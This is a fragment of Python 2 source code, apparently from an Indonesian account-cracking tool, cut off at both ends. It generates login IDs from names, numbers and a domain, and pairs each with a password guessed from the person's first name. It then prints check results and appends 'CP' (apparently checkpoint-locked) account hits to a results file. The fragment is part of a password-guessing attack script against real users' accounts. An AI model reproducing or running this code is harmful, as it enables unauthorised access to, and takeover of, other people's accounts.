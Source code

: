 	if len(nam) > 3:
		pw = nama.split()
		nam = nama.replace(" ", "")
		for dev in range(1, jml+1):
			try:
				t = te.replace(te, "")
				user_id.append(str(nam)+str(dev)+domain+ " "+str(pw[0]))
				print "\r ["+p+"$"+h+"]"+p+" Mengambil"+k+" {} \033[96;1mID ".format(len(user_id)),
				sys.stdout.flush()
			except:
				pass

	if len(nam) == 1:
		for dev in range(1, jml+1):
			try:
				t = te.replace(te, "")
				user_id.append(nama+str(dev)+domain+ " "+nama)
				print "\r ["+p+"$"+h+"]"+p+" Mengambil"+k+" {} \033[96;1mID ".format(len(user_id)),
				sys.stdout.flush()
			except:
				pass

def __cp__(eml_dev, san_dev):

	wak = datetime.datetime.now()
	waktu = str(wak.year)+"-"+str(wak.month)+"-"+str(wak.day)

	data = h+"\r{"+k+"Chek"+h+"}"+p+" {:<15}\033[92;1m | \033[90;1m{}   ".format(eml_dev,san_dev)
	if len(sesi) != 0:
		eml_dev = eml_dev+">>>"
		cek_dev(eml_dev, san_dev, data)
	else:
		print data
	eml_dev = eml_dev.replace(">>>", "")
	with open("hasil_cp.txt", "a") as hasil:
		di = open("hasil_cp.txt", "r").read()
		if eml_dev in di:
			has = di.replace(eml_dev, eml_dev).replace(san_dev, san_dev)
			with open("hasil_cp.txt", "w") as tulis:
				tulis.write(has)
		else:
			hasil.write("["+waktu+"]==>"+ eml_dev + "==>|==>" + san_dev + "\n")
	hasil_cp.append(eml_dev)

def __ttl__cp_(eml_dev, ttl, san_dev):
	try:
		wak = datetime.datetime.now()
		waktu = str(wak.year)+"-"+str(wak.month)+"-"+str(wak.day)
		data = h+"\r{"+k+"Chek"+h+"}"+p+" {:<15}\033[92;1m | \033[96;1m{}\033[92;1m | \033[97;1m{}   ".format(eml_dev,san_dev,ttl)
		if len(sesi) != 0:
			eml_dev = eml_dev+">>>"
			cek_dev(eml_dev, san_dev, data)
		else:
			print data
